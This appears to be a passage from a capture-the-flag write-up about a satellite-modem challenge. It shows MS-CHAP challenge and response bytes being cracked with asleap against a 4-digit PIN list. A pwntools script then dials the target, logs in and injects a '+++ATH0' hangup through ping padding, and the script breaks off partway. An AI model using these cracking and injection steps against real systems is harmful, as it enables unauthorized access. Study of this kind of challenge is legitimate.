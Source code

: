 Challenge:
```
c223 | 01 | 00 | 001a | 08 | 2e23517660054b59 | 47524e445354544e41384636435a39 
```
Response:
```
c223 | 02 | 00 | 0043 | 31 | 000000000000000000000000000000000000000000000000f2bd84da 305d1c16f3e7f0799ef220bba3865bbecc44508901 | 726f636b65746d616e32323535
```
Success:
```
c223 | 03 | 00 | 0004 |
```

Based on this we can see that it is using NT hashes and not LANMAN (good for them), and we will take the challenge and response and feed it into the `asleap` (https://github.com/joswr1ght/asleap) tool in order to crack the challenge and response hash with a list of 4-digit PINs. We just need to remove the zeroes and the 0x01 at the end of the response challenge.

```
keramas@ubuntu:/opt/asleap$ ./asleap -C 2e:23:51:76:60:05:4b:59 -R f2:bd:84:da:30:5d:1c:16:f3:e7:f0:79:9e:f2:20:bb:a3:86:5b:be:cc:44:50:89 -W ~/Documents/4digit.txt 
asleap 2.2 - actively recover LEAP/PPTP passwords. <jwright@hasborg.com>
Using wordlist mode with "/home/keramas/Documents/4digit.txt".
    hash bytes:        116b
    NT hash:           a42e790f0db7adf43d19e6b5b3ec116b
    password:          4940
```
With all the puzzle pieces in our hands, we can use the following script to automate the entire process and successfully log into SATNET for our flag:

```python
from pwn import *
import itertools

target = "modem.satellitesabove.me"
port = 5052

r = remote(target,port)
r.recvline()
r.sendline("ticket{india69067zulu:GHLHKwRgquLWIVVDZJsQQmkDAuyRF3dxATpm5TIqHZRj21iBODBJCX6SgBjd1KXwXw}")

r.recv()
log.info("Dialing...")
r.sendline("atdt 2485550158")

log.info("Entering first set of credentials.")
r.recvuntil("Username: ")
r.sendline("hax")
r.recvuntil("Password: ")
r.sendline("hunter2")

r.recvuntil("$ ")

log.info("Ping of death to force hangup.")
r.sendline("ping -p 2B2B2B415448300D 93.184.216.34")

r.recvuntil("$ ")
r.sendline("exit")

r.recvuntil("NO CARRIER")

log.info("Dialing second number.")
r.sendline("atdt 4725550161")

# Credentials extracted from the .wav file
```